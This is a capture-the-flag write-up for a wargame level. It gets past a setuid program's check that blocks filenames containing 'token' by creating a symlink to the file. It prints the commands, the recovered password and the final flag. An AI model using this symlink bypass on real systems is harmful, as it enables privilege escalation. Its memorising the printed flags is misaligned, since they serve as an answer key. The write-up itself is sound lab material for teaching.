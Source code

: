 # Level 08

## step 1 : try things
```
$ ./level08 token
You may not access 'token'
```
## step 2 : analyze level08
```
$ strings level08
```
we understand that level blocks access to all files that include the word token.

## step 3 : bind token
```
$ ln -s /home/user/level08/token /tmp/flag08
$ ./level08 /tmp/flag08
quif5eloekouj29ke0vouxean
```

## step 3 : get level09 password
```
$ su flag08
$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
